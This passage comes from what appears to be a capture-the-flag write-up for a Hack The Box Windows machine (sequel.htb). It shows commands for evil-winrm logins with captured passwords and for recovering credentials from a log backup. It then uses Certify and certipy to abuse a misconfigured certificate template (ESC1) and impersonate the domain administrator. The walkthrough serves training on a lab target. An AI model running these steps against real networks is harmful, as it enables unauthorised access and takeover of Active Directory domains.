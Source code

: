<img alt="Pasted image 20231231120843" src="https://github.com/iammR0OT/HTB/assets/74102381/3e091b87-9f4b-4fd0-be4d-b63237f847b4">

<img alt="Pasted image 20231231121332" src="https://github.com/iammR0OT/HTB/assets/74102381/c2143c29-b040-488f-817a-e2df1894dcb0">

```users
Tom.Henn
Brandon.Brown
Ryan.Cooper
sql_svc
James.Roberts
Nicole.Thompson
SQLServer2005SQLBrowserUser$DC
```
Lets login into account using **Evil-winrm** using command `evil-winrm -i 10.129.229.219 -u sql_svc -p REGGIE1234ronnie`

<img  alt="Pasted image 20231230191822" src="https://github.com/iammR0OT/HTB/assets/74102381/7f46a026-4fd1-4c41-b4c1-ab10ee475ad8">

In `C:\SQLServer\logs` folder i found a backup file named **ERRORLOG.BAK**, Lets download it to our local machine using `download ERRORLOG.BAK` and view content inside it. Inside the backup file i found some interesting logs where i there is a username and a password.
	Ryan.Cooper: NuclearMosquito3

<img alt="Pasted image 20231231122843" src="https://github.com/iammR0OT/HTB/assets/74102381/cc0d9db7-722e-41c8-bc49-dd8886837780">

Let's try to login through it using `evil-winrm -i 10.129.228.253 -u 'Ryan.Cooper' -p NuclearMosquito3`. And we are inside the Ryan user account and you can get your user flag from Desktop Directory. 

<img alt="Pasted image 20231231123207" src="https://github.com/iammR0OT/HTB/assets/74102381/f7d461c7-ba0c-4624-8a92-f6ae1ed1d31c">

# Root
Certificate Exploitation Explained [here](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
Moving towards Root let's upload Certify.exe to victim machine and try to find out if we have any vulnerable certificate using `./Certify.exe find /vulnerable` and we found one vulnerable certificate name **User Authentication**  

<img alt="Pasted image 20231231125215" src="https://github.com/iammR0OT/HTB/assets/74102381/60c21a56-f119-4c62-af41-07cb4090ed74">

After moving towards hacktricks article i found that it is vulnerable to ESC1 **Misconfigured Certificate Templates ESC1** you can find it [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1) Lets move toward the exploitation part. 
Run `Certify.exe request /ca:dc.sequel.htb-DC-CA /template:<VulnTemplate> /altname:<administrator>` to abuse this vulnerability to impersonate an **administrator** but certipy give use some weird error, so ew have to perform it remotely through **certipy** tool using command `python3.10 /usr/local/bin/certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target dc.sequel.htb -template UserAuthentication -upn administrator@sequel.htb -dns dc.sequel.htb -debug`

![Pasted image 20231231163655](https://github.com/iammR0OT/HTB/assets/74102381/85eda92b-a0eb-4b34-92cb-bb8eccab10ea)
